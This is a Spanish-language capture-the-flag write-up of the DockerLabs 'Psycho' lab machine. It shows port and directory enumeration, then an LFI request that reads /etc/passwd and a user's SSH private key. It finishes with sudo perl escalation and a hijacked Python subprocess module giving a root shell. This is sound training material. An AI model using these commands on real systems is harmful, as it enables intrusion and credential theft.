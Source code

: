 # 🧠 Máquina: Psycho

**Nivel:** Fácil

**Plataforma:** DockerLabs

**Objetivo:** Obtener acceso como root explotando vulnerabilidades web y de configuración.

---

## 📦 Despliegue de la Máquina

Descargamos y descomprimimos la máquina:

```bash
unzip psycho.zip
sudo bash auto_deploy.sh psycho.tar
```

📸 ![](/Psycho/Imagenes/Logo.png)
📸 ![](/Psycho/Imagenes/Despliegue.jpeg)

Comprobamos la conectividad con `ping`:

```bash
ping 172.17.0.2
```

📸 ![](/Psycho/Imagenes/Ping.jpeg)

---

## 🔍 Enumeración

### Escaneo de Puertos

Usamos `nmap` para detectar los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

📸 ![](/Psycho/Imagenes/Puertos.jpeg)

Usamos un script personalizado `extractPorts` para facilitar el siguiente escaneo:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

📸 ![](/Psycho/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis Web

Visitamos la página principal en el puerto 80:

📸 ![](/Psycho/Imagenes/Pagina.jpeg)

### Fuzzing con Gobuster

Ejecutamos `gobuster` para encontrar directorios y archivos ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

📸 ![](/Psycho/Imagenes/Gobuster.jpeg)

Se encontraron dos rutas relevantes:

* `/assets`
  📸 ![](/Psycho/Imagenes/Directorio.jpeg)

* `/index.php/assets#` (mediante fuzzing manual)
  📸 ![](/Psycho/Imagenes/Oculto.jpeg)

### Análisis de Imagen

Descargamos una imagen y la analizamos con `exiftool` buscando metadatos sensibles, pero no se encontró información útil:

```bash
exiftool background.jpg
```

📸 ![](/Psycho/Imagenes/Metadatos.jpeg)

---

## 💥 Vulnerabilidad LFI (Local File Inclusion)

En el código fuente de la página se observó un posible error, que explotamos con LFI:

```bash
curl -s -X GET "http://172.17.0.2/?secret=/etc/passwd" | grep "sh$"
```

📸 ![](/Psycho/Imagenes/Usuarios.jpeg)

Esto nos revela usuarios del sistema con shell válido, entre ellos:
`root`, `ubuntu`, `vaxei`, `luisillo`

---

## 🔑 Robo de Clave SSH

Aprovechamos la vulnerabilidad LFI para extraer la clave privada de SSH del usuario `vaxei`:

```bash
curl -s -X GET "http://172.17.0.2/?secret=/home/vaxei/.ssh/id_rsa"
```

📸 ![](/Psycho/Imagenes/curlKey.jpeg)
📸 ![](/Psycho/Imagenes/Key.jpeg)

Guardamos la clave como `id_rsa` y le damos permisos adecuados:

```bash
chmod 600 id_rsa
```

Nos conectamos vía SSH:

```bash
ssh -i id_rsa vaxei@172.17.0.2
```

📸 ![](/Psycho/Imagenes/webshell.jpeg)

---

## 📂 Revisión Inicial del Sistema

Inspeccionamos archivos visibles:

```bash
ls -l
cat file.txt
```

Archivo encontrado: `file.txt`
Contenido:

```
kflksdfsad  
asdsadsad  
asdasd  
```

---

## 🚀 Escalada de Privilegios

Verificamos los privilegios `sudo` del usuario `vaxei`:

```bash
sudo -l
```

📸 ![](/Psycho/Imagenes/Escalada.jpeg)

El resultado indica que `vaxei` puede ejecutar `perl` como el usuario `luisillo` sin contraseña:

```
(luisillo) NOPASSWD: /usr/bin/perl
```

### Escalamos a `luisillo`:

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```

---

## 🧑‍💻 Escalada a Root

Ya como `luisillo`, encontramos que el script `/opt/paw.py` llama a un archivo `subprocess.py`.

Creamos un archivo `subprocess.py` con el siguiente contenido malicioso:

```python
import os
os.system('bash')
```

Ejecutamos el script:

```bash
sudo /usr/bin/python3 /opt/paw.py
```

Esto lanza una shell como **root**.

📸 ![](/Psycho/Imagenes/root.jpeg)

---

## ✅ Conclusiones

* Se descubrió una vulnerabilidad de inclusión de archivos locales (LFI).
* Se logró extraer una clave privada SSH.
* Se obtuvo acceso SSH como usuario normal (`vaxei`).
* Se escaló a otro usuario (`luisillo`) mediante `sudo` mal configurado.
* Finalmente, se escaló a **root** al abusar de un script que ejecutaba código arbitrario en Python.
